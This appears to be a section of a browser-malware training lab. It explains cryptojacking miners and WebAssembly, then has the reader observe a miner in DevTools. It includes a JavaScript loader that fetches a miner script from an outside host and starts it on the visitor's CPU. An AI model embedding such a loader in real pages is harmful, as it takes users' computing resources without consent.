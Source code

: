 ### Cryptocurrency Mining

Cryptominers, or programs that use a machine's CPU to mine cryptocurrency, are increasingly being delivered by both legitimate and untrusted sites as a way to make money.  Many crypto miners that do not ask permission to run are being labeled as malware since they are in essence stealing the user's computer resources.  There are many types of cryptocurrency, one we've been seeing lately is Monero which is mined by sites such as Coinhive.

The majority of the cryptominers you will see will be in the form of a Web Assembly (WASM) file which is optimized code that can run significantly faster than JavaScript.

#### Web Assembly

Web Assembly (WASM) can be compared to writing and compiling code to run on an Operating System.  For example, C programs can be compiled for either Windows, Linux, or Mac and for the x64 or x86 architecture.  The compiler scans the entire program and creates an optimized executable containing binary code for the CPU to execute.  After this, the executable should run on any machine with the appropriate OS and architecture.

Web Assembly is similar as it allows you to compile a C program into WASM that will run on any of the major browsers---Safari, Chrome, Firefox, and Edge.  By writing programs in C/C++ and compiling them to WASM, developers can control exactly how memory is allocated and freed making programs much, much faster.  This results in a huge performance boost because the browser is being given code that's already been optimized.  It's basically running native code on the browser.

In other words, WASM is machine code for a *conceptual* machine, not a physical machine since on the web the architecture of the client machine is unknown.  Web assembly doesn't replace JavaScript, but complements it by enabling hybrid designs (WASM + JS).  JavaScript loads a web assembly module, instantiates it, and calls its functions.

The following code downloads a miner written in web assembly and runs it using a Web Worker:

```javascript
function loadMiner() {
	d=document;m=d.createElement("script");m.src="https://nfwebminer.com/lib/miner.js";d.body.appendChild(m);
}
function callMiner() {
	var miner = new NFMiner("187fd", {load:"medium"});
	miner.start();
}
```

Go to the **Sources** tab in DevTools and click the **WASM Miner** button.  You should see a new source file appear from the nfwebminer\[d\]com domain and then a few seconds later a web worker should start:

![](images/JavaScript%20and%20Browser-based%20Malware/image015.png)<br><br>

Check the Task Manager and verify that Google Chrome is at around 70-100% CPU:

![](images/JavaScript%20and%20Browser-based%20Malware/image016.png)<br><br>

Once you leave or refresh the page, the code stops running.
